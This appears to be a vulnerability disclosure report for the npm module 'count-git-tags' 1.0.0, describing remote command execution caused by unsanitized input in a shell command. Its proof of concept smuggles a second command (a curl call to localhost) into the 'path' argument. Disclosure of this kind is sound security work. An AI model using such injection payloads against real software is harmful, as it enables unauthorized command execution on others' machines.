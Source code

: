 ## Details:
I would like to report a `RCE` issue in the `count-git-tags` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

## Module
* **module name:** `count-git-tags`
* **version:** `1.0.0`
* **npm page:** `https://www.npmjs.com/package/count-git-tags`

## Module Description
> A tool to count the number of tags of a git repository
## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-count-git-tags/blob/master/index.js#L27

## POC

```js
// poc.js
const countGitTags = require('count-git-tags');
 
countGitTags({ path: '.git;curl "http://localhost/RCE"' });
```

## Impact

`RCE` on `count-git-tags` via `insecure command formatting`

TEST CONTENT